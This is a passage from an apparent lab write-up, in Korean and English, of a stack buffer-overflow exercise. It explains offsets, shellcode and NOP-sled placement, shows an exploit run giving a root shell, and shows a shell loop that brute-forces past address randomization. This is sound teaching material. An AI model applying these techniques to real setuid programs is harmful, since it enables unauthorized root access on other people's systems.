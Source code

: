 여기서 ebp 주소에 0x88(128)을 추가한다.

공격 시 버퍼 크기가 517이며, 그 중 396바이트는 스택에서 사용하고 25바이트는 셸 코드로 사용되므로 그 사이에 값을 추가하여 NOP 코드가 포함된 주소로 현재 반환 주소를 대체할 수 있다.

```bash
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack

# whoami
root
```

<p align="center">
    <img src="README.assets/BufferOverflow4.png"/>
    <div align="center">Exploit Success</div>
</p>
<br/>

<br/>

### Turn on the Ubuntu's Address Randomization

```bash
$ sudo sysctl -w kernel.randomize_va_space=2
```

If running the vulnerable code once does not get you the root shell, how about running it for many times?

You can run `./stack` in the following loop, and see what will happen.

If your exploit program is designed properly, you should be able to get the root shell after a while.

You can modify your exploit program to increase the probability of success (i.e., reduce the time that you have to wait).

```bash
$ sh -c "while [ 1 ]; do ./stack; done;"

# whoami
root
```

<p align="center">
    <img src="README.assets/BufferOverflow5.png"/>
    <div align="center">Turn on the Ubuntu's Address Randomization</div>
</p>
<br/>
